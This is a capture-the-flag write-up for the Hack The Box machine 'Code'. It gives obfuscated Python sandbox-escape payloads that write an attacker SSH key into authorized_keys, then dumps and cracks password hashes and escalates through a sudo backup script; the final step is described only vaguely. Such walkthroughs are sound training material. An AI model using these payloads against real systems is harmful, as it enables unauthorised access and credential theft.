 # CTF Challenge: CODE HTB

## Initial Exploration

We notice that port **5000** is open with the **HTTP** protocol. When accessing it, we discover an online Python compiler. Our first attempt is to list the available classes using the following script:

```python
for i, cls in enumerate(''.__class__.__mro__[1].__subclasses__()):
    print(f"Index {i}: {cls.__name__}")
```

This script works and returns useful results.

---

## Creating an SSH Access

We observe that the user does not have a **.ssh** folder. We will create one to establish an SSH connection later.

### Creating the `.ssh` Folder

```python
b = (0).__class__.__base__.__subclasses__()[138].__init__.__globals__
i = b['__bui' + 'ltins__']
i['__im' + 'port__']('o'+'s').__getattribute__('make' + 'dirs')('/home/app-production/.ssh/')
```

### Adding Our Public SSH Key

```python
f = ''.__class__.__mro__[1].__subclasses__()[133].__init__.__globals__['__bui'+'ltins__']['op'+'en']('/home/app-production/.ssh/authorized_keys', 'w')
getattr(f, 'w'+'rite')('ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAa4YWMYFMgqwAKvvz4HsksklM78XxsjF6mGuwKcJOdpxhYBNNDyyh/WBGYI/zoEQCQBuZjjm+jgEJYsyNLOAt8= kali@kali')
getattr(f, 'clo'+'se')()
```

---

## Accessing the SQLite Database

We find hints in a configuration file indicating the presence of an **SQLite3** database.

### Locating the Database

```bash
app-production@code:~$ find / -name "database.db" 2>/dev/null
/home/app-production/app/instance/database.db
/home/app-production/instance/database.db
```

### Exploring the Database

```bash
app-production@code:~$ sqlite3 /home/app-production/app/instance/database.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
```

#### Retrieving Available Tables

```sql
sqlite> .tables
code  user
```

#### Extracting Users and Passwords

```sql
sqlite> select * from user;
1|root|new_root_password
2|martin|3de6f30c4a09c27fc71932bfc68474be
3|sojlen|202cb962ac59075b964b07152d234b70
```
We found MD5 hashed password, let's go crack that with Hashcat

<div align="center">
  <img src="https://github.com/10T4/write-up/blob/main/images/Image1.png" alt="hashcat">
</div>

Thus, we obtain **Martin's** password.

---

## Privilege Escalation

After logging in as **Martin**, we execute:

```bash
martin@code:~$ sudo -l
```

We discover a script **/usr/bin/backy.sh** that can be executed with sudo.

### Content of `backy.sh`

```bash
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\.\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

We exploit a flaw in the script to execute arbitrary commands.

### Exploitation

We can use **tar** to extract sensitive content into `/home/martin/backup/`:

```bash
tar -xvf code
```

This grants us access to the necessary files to gain **root** access.

---

## Retrieving the Root Flag

By exploiting the script's vulnerability, we obtain **root** access, allowing us to read the **/root/root.txt** file.


